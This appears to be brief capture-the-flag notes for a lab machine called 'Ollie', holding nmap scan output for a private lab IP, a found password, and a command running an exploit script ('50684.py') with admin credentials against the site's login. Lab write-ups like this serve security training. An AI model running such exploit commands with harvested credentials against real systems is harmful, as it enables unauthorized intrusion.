








# Ollie
1.

http-title: Ollie :: login
|_Requested resource was http://10.201.71.110/index.php?page=login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries

http://10.201.71.110:1337/
OllieUnixMontgomery!

python3 50684.py -u http://10.201.71.110/ -U admin -P OllieUnixMontgomery!

